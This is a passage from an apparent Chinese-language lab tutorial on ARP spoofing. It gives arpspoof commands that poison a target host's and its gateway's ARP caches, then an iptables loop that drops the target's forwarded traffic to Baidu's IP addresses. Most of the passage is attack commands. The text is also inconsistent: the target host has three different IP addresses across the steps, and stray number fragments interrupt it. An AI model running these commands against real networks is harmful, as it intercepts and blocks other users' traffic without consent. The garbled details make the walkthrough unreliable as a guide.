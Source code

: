 打开两个终端，分别执行：		11.242

### 终端1（欺骗目标主机，告诉它“我是网关”）：

```bash
sudo arpspoof -i eth0 -t 172.22.12.18 172.22.31.254
```

### 终端2（欺骗网关，告诉它“我是目标主机”）：

```bash
sudo arpspoof -i eth0 -t 172.22.31.254 172.22.1.182
```

------

## 4. 验证 ARP 欺骗成功

目标主机上执行：

```bash
arp -a
```

看到网关 IP 对应的 MAC 地址变成了 Kali 机器的 MAC，说明欺骗成功。

------

## 5. 获取百度的 IP 地址（用于拦截）

在 Kali 上执行：

```bash
dig +short www.baidu.com
```

假设返回几个 IP，比如：

```
153.3.238.127
153.3.238.28

```

------

## 6. 拦截目标访问百度 IP

把目标访问百度的流量丢弃，禁止访问：1.182

```bash
for ip in 153.3.238.127 153.3.238.28 ; do
    sudo iptables -A FORWARD -s 172.22.12.51 -d $ip -j DROP
done
```

------

